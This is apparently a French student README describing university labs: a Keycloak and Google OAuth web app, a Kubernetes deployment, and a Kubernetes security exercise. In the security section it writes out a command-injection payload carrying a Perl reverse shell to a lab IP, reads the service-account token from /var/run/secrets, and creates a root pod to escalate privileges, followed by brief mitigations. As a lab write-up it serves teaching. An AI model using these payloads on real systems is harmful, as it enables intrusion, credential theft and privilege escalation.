






# Microservices2

Noms :

Fadia Allani
Angie Pineda

## TP1 : Service Web sécurisé

Pour le projet nous avons utilisé comme technologies java scrpit et react, pour la délégation d'autorisation et l'utilisation de l'api nous avons utilisé google. Pour la délégation d'autorisation nous avons utilisé un container docker avec keycloak.

Lorsque le projet est lancé et que l'on se rend sur la page d'accueil “localhost:5173/”, la première chose qui s'affiche est la page de connexion keycloak qui demande à l'utilisateur de se connecter, si un identifiant et un mot de passe valides sont saisis, un token est récupéré et il autorise la navigation sur le site web. En outre, il existe une api protégée par keycloak, et si le front-end doit accéder à cette ressource, il fera une requête du type :

```js
fetch('http://localhost:3000/protected', {
  headers: {
    Authorization: `Bearer ${keycloak.token}`
  }
})
```

Avec ce qui précède, le backend vérifie la demande et si le jeton est valide, il renvoie les données demandées, sinon il renvoie une erreur 401.

Une fois entrée, la page est redirigée vers la page de connexion dans laquelle se trouve un bouton permettant de se connecter avec Google. Lorsque l'on clique sur ce bouton, un appel est lancé au backend qui redirige la demande vers la page Google, où l'authentification de l'utilisateur est demandée et où il est ensuite demandé d'accepter les conditions générales d'utilisation. Avec les données ci-dessus, le backend appelle l'api google people où il demande des informations sur l'utilisateur (mail, nom et photo) qui sont récupérées par le frontend et affichées sur la page /info.


### Difficultés rencontrées.

**Google:** 

La configuration sur le site de google est confuse, car il y a beaucoup d'onglets, ce qui rend difficile de trouver la bonne page pour s'enregistrer, éditer et obtenir l'identifiant client pour l'application. Ensuite, pour la redirection des URI, il n'y a pas de documentation claire et il est donc difficile de l'intégrer. 

**Keycloak**

La configuration pour permettre l'authentification à partir de keycloak est confuse, car bien que la page donne un exemple d'utilisation avec javascript, elle n'indique pas clairement les termes, par exemple elle ne décrit pas la signification de realm, ce qui rend difficile la compréhension de ce que fait le code. Ensuite, comme dans le cas précédent, l'adresse des URLs n'est pas claire et nous avons eu des problèmes pour accéder à la page qui se lance de Keycloak. 

# Tp 1 Kubernetes Security

Nous avons commencé par créer un docker file pour chacun de nos services (frontend/backend) et nous avons ensuite mis à jour le docker-compose.yml 



Nous avons ensuite suivi toutes les étapes du tp jusqu'à l'étape du git compose push. 

Problème: Le push ne passe pas 



Après avoir identifié et corrigé un problème d'indentation dans le fichier /etc/rancher/k3s/registries.yaml, nous avons réussi à pousser les images vers le registrey.


Pour l'étape 4 du tp, nous avons commencé par créer un fichier myService.yaml regroupant les deux services frontend et backend

Problème: Après déploiement sur le cluster, nous n’avons pas pu accéder aux services. 

Message d’erreur rencontré lors de la tentative d’accès :



Le message d’erreur indiquait que le domaine demandé n’était pas reconnu. Nous avons donc ajouté l’adresse frontend.infres.fr dans le fichier vite.config.js du frontend.

Après cette modification, les services sont accessibles et fonctionnent correctement : 




# TP Kubernetes Security_2
on est passé par [reverse shell ](https://www.revshells.com/) pour generer un  reverse shell perl.

```markdown
google.com; perl -e 'use Socket;$i="10.134.35.160";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


On a donc réussi à executer une commande à distance et on est maintenant dans un shell interactif à l'interieur du containeur mais pas en tant que root.        

# Find credentials: 
- ls /var/run/secrets/kubernetes.io/serviceaccount/
puis - cat /var/run/secrets/kubernetes.io/serviceaccount/token
pour afficher le token 


Une fois le token recupéré, on télécharge le binaire kubectl et on teste si on peut créer des pods avec ce token : YES 



## What could had been done to prevent this issue ?
- Approche Least Privilege lors de l’affectation des droits
- Désactiver le montage automatique du token dans les pods

# Escalate your privileges :

On crée un root pod qui utilise le même service account 



## What could had been done to prevent this issue ?
Mettre en place des règles qui interdisent la création de pods avec ces paramètres risqués.

